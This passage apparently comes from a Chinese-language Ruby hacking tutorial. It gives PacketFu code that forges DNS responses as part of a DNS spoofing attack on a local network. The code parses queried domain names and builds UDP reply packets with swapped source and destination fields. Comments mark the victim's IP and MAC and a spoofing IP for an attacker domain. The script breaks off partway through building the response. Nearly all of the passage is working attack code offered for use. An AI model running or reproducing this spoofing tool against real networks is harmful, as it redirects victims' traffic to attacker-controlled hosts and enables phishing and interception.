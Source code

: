 | **图 2.** DNS 响应有效载荷 |

```
 spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61" 
```

封装

```
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu

def readable(raw_domain)

  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
```